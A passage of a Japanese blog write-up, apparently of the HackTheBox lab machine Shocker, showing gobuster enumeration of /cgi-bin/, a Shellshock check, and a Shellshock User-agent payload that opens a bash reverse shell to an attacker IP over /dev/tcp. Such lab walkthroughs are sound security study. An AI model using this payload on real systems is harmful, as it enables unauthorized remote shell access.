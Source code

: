 ## gobuster(2回目)
```
kali@kali:~$ gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.10.56/cgi-bin/ -x sh,cgi,pl -o shocker.gobustercgibin
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.56/cgi-bin/
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     sh,cgi,pl
[+] Timeout:        10s
===============================================================
2020/07/29 01:51:34 Starting gobuster
===============================================================
/user.sh (Status: 200)
===============================================================
2020/07/29 03:23:06 Finished
===============================================================
```

![コメント 2020-07-31 152742.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/447800/85e92d16-3d9b-7b1b-2cc2-71549b5f5bf1.png)
![コメント 2020-07-31 152921.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/447800/c0c044a7-6620-4114-4e25-67b96a8ae7f1.png)

user.shを発見することができました。

# 侵入
マシンの名前と.shファイルからshellshockの可能性を探ります。
shellshockに対して脆弱であるか調べてみます。
以下のURLを参考に調べてみます。
exploit-db:
https://www.exploit-db.com/docs/48112
<img width="1273" alt="スクリーンショット 2020-07-31 17.59.56.png" src="https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/447800/ea37c5fa-ed26-bb04-5dd9-8a5591c9f6dd.png">
これにより、echoコマンドが実行されてaaaaという文字列が表示されているので、shellshockに対して脆弱であることが分かりました。

## 方法1
続けて、Burpを介してreverse shellを確立します。
User-agentを下記のように書き換えます。

```
User-agent: () { :;}; /bin/bash -c 'bash -i >& /dev/tcp/10.10.14.9/9002 0>&1'
```

![スクリーンショット 2021-05-27 150918.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/447800/dfe55312-60c5-62da-8411-7db5972d29d0.png)
![スクリーンショット 2021-05-27 150951.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/447800/01f15123-e7dd-2dac-ff56-9edb16985f64.png)
シェルを取ることができました。
